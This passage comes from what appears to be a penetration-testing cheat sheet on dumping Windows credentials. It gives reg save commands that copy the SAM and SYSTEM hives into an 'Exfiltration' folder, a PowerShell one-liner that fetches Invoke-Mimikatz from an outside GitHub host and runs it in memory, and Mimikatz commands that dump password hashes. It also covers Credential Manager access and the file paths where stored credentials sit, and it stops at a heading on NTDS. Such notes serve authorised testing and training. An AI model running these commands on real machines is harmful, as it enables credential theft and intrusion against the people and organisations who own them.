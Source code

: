 #### 1.2.3 Windows
```bash
reg save HKLM\SAM c:\Exfiltration\SAM
reg save HKLM\SYSTEM c:\Exfiltration\SYSTEM
```

#### 1.2.4 Mimikatz
```bash
# Load into memory
IEX (IWR -UseBasicParsing "https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1")

# Dump from SAM and SYSTEM. Ensure files are in the current working directory
Invoke-Mimikatz -command "lsadump::sam /system:SYSTEM /sam:SAM"

# Dump against the live hive files
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```

---

### 1.3 Windows Credentials Manager

The [Windows Credentials Manager](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication#windows-vault-and-credential-manager) lets users store credentials for systems and websites in the secure Windows Vault.
>Credential management by using Credential Manager is controlled by the user on the local computer. Users can save and store credentials from supported browsers and Windows applications to make it convenient when they need to sign in to these resources.
>
>When a website, an application, or another computer requests authentication through NTLM or the Kerberos protocol, a dialog box appears in which you select the Update Default Credentials or Save Password check box. This dialog box that lets a user save credentials locally is generated by an application that supports the Credential Manager APIs. 


I can access Credential Manager via the following commands. 

```
>control.exe keymgr.dll
```

![](https://i.imgur.com/X93ay6a.png)


Credential management by using Credential Manager is controlled by the user on the local computer.

```bash
C:\Users\[Username]\AppData\Local\Microsoft\Credentials\
C:\Users\[Username]\AppData\Roaming\Microsoft\Credentials
```


# 1.4 NT Directory Services (NTDS )- Active Directory Domain Database.
